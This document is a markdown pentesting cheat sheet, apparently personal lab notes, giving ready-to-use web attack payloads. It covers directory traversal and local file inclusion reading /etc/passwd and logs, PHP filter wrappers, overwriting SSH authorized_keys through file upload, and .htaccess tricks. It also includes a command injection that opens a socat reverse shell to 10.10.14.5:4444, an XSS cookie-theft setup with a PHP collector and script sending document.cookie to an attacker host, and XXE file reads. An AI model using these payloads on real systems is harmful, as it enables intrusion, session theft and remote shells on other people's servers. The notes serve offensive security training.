 # Directory Traversal
## Identifying and Exploiting Directory Traversal

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

```bash
curl http://IP/cgi-bin/../../../../etc/passwd
curl http://IP/cgi bin/../../../../../../../../../../etc/passwd
curl http://IP/cgi bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

# File Inclusion Vulnerabilities
## Local File Inclusion (LFI)

```bash
curl http://site.com/meteor/index.php?page=admin.php
```

```bash
curl http://site.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

## Log Poisoning 

 -  [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning)

## PHP Wrappers

 -  [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)

```bash
curl http://$IP/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php

curl http://$IP/qualcosa.php?parametro=php://filter/convert.base64-encode/resource=index.php
```

## Remote File Inclusion (RFI)

- [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)

# File Upload Vulnerabilities

- [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/unrestricted-file-upload)
## SSH authorized_keys

In this case, since we couldn't load a webshell directly, the goal was to overwrite the **authorized_keys** file through the file upload mechanism.

![](Using_Non-ExecutableFiles_1.png)

```bash
cp fileup > authorized_keys
```

![](Using_Non-ExecutableFiles_2.png)

```bash
ssh -i fileup -p 2222 root@$IP_TARGET
```

## .htaccess

```shell
# Alternative 1
echo "AddType application/x-httpd-php .xxx" > .htaccess

# Alternative 2
echo "AddType application/x-httpd-php .dork" > .htaccess
```

# Command Injection

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## Examples

Original requests:

```txt
GET /ping.php?ip=127.0.0.1 HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://monitoring.inlanefreight.local/index.php
Cookie: PHPSESSID=qsl96pfki8svtpbfs159b6bgro
```

Modified requests:

```txt
GET /ping.php?ip=127.0.0.1%0a'i'fconfig HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://monitoring.inlanefreight.local/index.php
Cookie: PHPSESSID=qsl96pfki8svtpbfs159b6bgro
```

```txt
GET /ping.php?ip=127.0.0.1%0a'l's HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://monitoring.inlanefreight.local/index.php
Cookie: PHPSESSID=qsl96pfki8svtpbfs159b6bgro
```

```txt
GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}00112233_flag.txt HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://monitoring.inlanefreight.local/index.php
Cookie: PHPSESSID=qsl96pfki8svtpbfs159b6bgro
```

```txt
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.5:4444${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://monitoring.inlanefreight.local/index.php
Cookie: PHPSESSID=qsl96pfki8svtpbfs159b6bgro
```

# XSS & XEE

- [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/xss)
- [The Hacker Recipes](https://www.thehacker.recipes/web/inputs/xxe-injection/

## XSS - Cookie Theft

Start a listener:

```shell
nc -lvnp 9000
```

Trigger:

```javascript
"><script src=http://$KALI_IP:9000/TESTING_THIS</script>
```

To try to get the admin cookies you need to create the following files:

- index.php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

- script.js

```javascript
new Image().src='http://$KALI_IP:9200/index.php?c='+document.cookie
```

Start a PHP server:

```shell
sudo php -S 0.0.0.0:9200
```

Try to use this payload:

```javascript
"><script src=http://$KALI_IP:9200/script.js></script>
```

## XSS - Local File Read

- https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```

## XEE

Original request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
    <root>
     <subtotal>
      undefined
     </subtotal>
     <userid>
      1206
     </userid>
    </root>
```

Modified requests:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
<root>
	<subtotal>
		undefined
	</subtotal>
	<userid>
		&xxetest;
	</userid>
</root>
```

